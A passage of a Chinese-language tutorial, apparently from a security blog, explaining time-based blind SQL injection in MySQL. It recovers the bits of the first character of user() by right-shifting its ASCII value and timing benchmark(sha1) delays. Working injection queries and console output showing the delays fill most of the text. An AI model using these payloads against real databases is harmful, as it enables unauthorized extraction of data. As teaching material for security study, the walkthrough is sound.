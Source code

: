 ![image.png](https://xzfile.aliyuncs.com/media/upload/picture/20181026220144-abe7a568-d927-1.png)


第五位：

然后是第五位的值。同上，有两种可能：
0111 **0**（十进制：14）///TRUE
或者
0111 **1**（十进制：15）// FALSE
```
mysql> select if ((ascii((substr(user(),1,1))) >> 3 )=14,benchmark(10000000,sha1('test')), 'false');
 
+---------------------------------------------------------------------------------------+
 
| if ((ascii((substr(user(),1,1))) >> 3 )=14,benchmark(10000000,sha1('test')), 'false') |
 
+---------------------------------------------------------------------------------------+
 
| 0                                                                                     |

+---------------------------------------------------------------------------------------+

1 row in set (2.46 sec)
```
SQL查询存在时延，所以条件为TRUE，即第五位为0
0111 **0**???

![image.png](https://xzfile.aliyuncs.com/media/upload/picture/20181026220158-b3f13eea-d927-1.png)


第六位：

然后是第六位的值。同上，有两种可能：

01110 **0**（十进制：28）//TRUE
或者
01110 **1**（十进制：29）// FALSE
```
mysql> select if ((ascii((substr(user(),1,1))) >> 2 )=28,benchmark(10000000,sha1('test')), 'false');
 
+---------------------------------------------------------------------------------------+
 
| if ((ascii((substr(user(),1,1))) >> 2 )=28,benchmark(10000000,sha1('test')), 'false') |
 
+---------------------------------------------------------------------------------------+
 
| 0                                                                                     |
 
+---------------------------------------------------------------------------------------+
 
1 row in set (2.44 sec)
```
SQL查询存在时延，因此条件为TRUE，所以第六位为0

